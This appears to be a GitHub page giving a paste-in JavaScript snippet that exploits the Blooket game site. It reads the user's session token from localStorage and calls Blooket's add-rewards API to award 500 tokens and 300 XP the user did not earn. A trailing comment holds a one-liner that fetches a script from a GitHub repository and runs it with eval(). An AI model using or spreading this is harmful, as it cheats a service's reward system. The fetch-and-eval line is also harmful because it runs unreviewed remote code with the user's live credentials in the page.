 Copy the following:


async function getName(authToken) {
    const response = await fetch('https://api.blooket.com/api/users/verify-token?token=JWT+' + authToken);
    const data = await response.json();

    return data.name
};

async function addTokens() {
    const myToken = localStorage.token.split('JWT ')[1];

    const response = await fetch('https://api.blooket.com/api/users/add-rewards', {
        method: "PUT",
        headers: {
            "referer": "https://www.blooket.com/",
            "content-type": "application/json",
            "authorization": localStorage.token
        },
        body: JSON.stringify({
            name: await getName(myToken),
            addedTokens: 500,
            addedXp: 300
        })
    });

    if (response.status == 200) {
        alert(`success ${response.status}`);
    } else {
        alert(`error ${response.status}`);
    };

};

addTokens();

// fetch("https://raw.githubusercontent.com/StopSimpingBruh/blooket-coins/DaHack/addcoins.js").then((res) => res.text().then((t) => eval(t)))
